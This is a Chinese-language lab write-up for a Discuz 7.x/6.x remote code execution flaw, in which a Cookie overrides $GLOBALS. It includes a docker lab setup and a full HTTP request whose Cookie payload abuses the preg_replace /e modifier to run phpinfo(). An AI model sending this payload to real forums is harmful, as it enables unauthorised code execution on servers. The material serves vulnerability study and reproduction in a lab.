

# Discuz 7.x/6.x 全局变量防御绕过导致代码执行漏洞

Discuz是一个广泛使用的论坛软件系统。在Discuz 7.x/6.x版本中存在一个由于全局变量保护不足导致的远程代码执行漏洞。

由于PHP 5.3.x版本中php.ini的设置里`request_order`默认值为"GP"，导致`$_REQUEST`中不再包含`$_COOKIE`数据。攻击者可以通过在Cookie中传入`$GLOBALS`来覆盖全局变量，最终造成远程代码执行漏洞。

参考链接：

- <https://www.secpulse.com/archives/2338.html>

## 环境搭建

执行如下命令启动Discuz 7.2：

```
docker compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装Discuz，使用以下数据库配置：

- 数据库地址：`db`
- 数据库名：`discuz`
- 数据库账号：`root`
- 数据库密码：`root`


## 漏洞复现

安装成功后，找到一个已存在的帖子，向其发送数据包，并在Cookie中增加payload `GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close
```

可以看到`phpinfo()`函数被成功执行，证明远程代码执行漏洞利用成功：


